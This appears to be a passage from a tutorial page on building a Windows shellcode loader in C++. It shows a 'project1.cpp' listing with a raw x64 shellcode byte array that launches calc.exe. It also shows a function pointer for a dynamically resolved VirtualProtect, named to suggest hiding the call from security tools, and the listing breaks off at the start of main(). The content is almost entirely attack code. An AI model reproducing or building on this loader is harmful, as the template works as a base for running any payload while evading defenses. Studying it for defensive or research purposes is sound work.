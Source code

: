 <figure><img src="../../.gitbook/assets/image (345).png" alt=""><figcaption></figcaption></figure>

this is how the final code looks like:

{% code title="project1.cpp" %}
```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// raw calc shellcode
const unsigned char shellcode[] = {
0xFC,0x48,0x83,0xE4,0xF0,0xE8,0xC0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xD2,0x65,0x48,0x8B
,0x52,0x60,0x48,0x8B,0x52,0x18,0x48,0x8B,0x52,0x20,0x48,0x8B,0x72,0x50,0x48,0x0F,0xB7,0x4A,0x4A,0x4D,0x31,0xC9,0x48,
0x31,0xC0,0xAC,0x3C,0x61,0x7C,0x02,0x2C,0x20,0x41,0xC1,0xC9,0x0D,0x41,0x01,0xC1,0xE2,0xED,0x52,0x41,0x51,0x48,0x8B,
0x52,0x20,0x8B,0x42,0x3C,0x48,0x01,0xD0,0x8B,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xC0,0x74,0x67,0x48,0x01,0xD0,0x50,
0x8B,0x48,0x18,0x44,0x8B,0x40,0x20,0x49,0x01,0xD0,0xE3,0x56,0x48,0xFF,0xC9,0x41,0x8B,0x34,0x88,0x48,0x01,0xD6,0x4D,
0x31,0xC9,0x48,0x31,0xC0,0xAC,0x41,0xC1,0xC9,0x0D,0x41,0x01,0xC1,0x38,0xE0,0x75,0xF1,0x4C,0x03,0x4C,0x24,0x08,0x45,
0x39,0xD1,0x75,0xD8,0x58,0x44,0x8B,0x40,0x24,0x49,0x01,0xD0,0x66,0x41,0x8B,0x0C,0x48,0x44,0x8B,0x40,0x1C,0x49,0x01,
0xD0,0x41,0x8B,0x04,0x88,0x48,0x01,0xD0,0x41,0x58,0x41,0x58,0x5E,0x59,0x5A,0x41,0x58,0x41,0x59,0x41,0x5A,0x48,0x83,
0xEC,0x20,0x41,0x52,0xFF,0xE0,0x58,0x41,0x59,0x5A,0x48,0x8B,0x12,0xE9,0x57,0xFF,0xFF,0xFF,0x5D,0x48,0xBA,0x01,0x00,
0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8D,0x8D,0x01,0x01,0x00,0x00,0x41,0xBA,0x31,0x8B,0x6F,0x87,0xFF,0xD5,0xBB,0xF0,
0xB5,0xA2,0x56,0x41,0xBA,0xA6,0x95,0xBD,0x9D,0xFF,0xD5,0x48,0x83,0xC4,0x28,0x3C,0x06,0x7C,0x0A,0x80,0xFB,0xE0,0x75,
0x05,0xBB,0x47,0x13,0x72,0x6F,0x6A,0x00,0x59,0x41,0x89,0xDA,0xFF,0xD5,0x63,0x61,0x6C,0x63,0x2E,0x65,0x78,0x65,0x00 };

// size of shellcode
unsigned int shellcode_len = sizeof(shellcode);

// function pointer for VirtualProtect dynamic call
BOOL(WINAPI  *HideProtect)(LPVOID lpAddress, SIZE_T dwSize, DWORD  flNewProtect, PDWORD lpflOldProtect);

int main() {
    BOOL rv;
```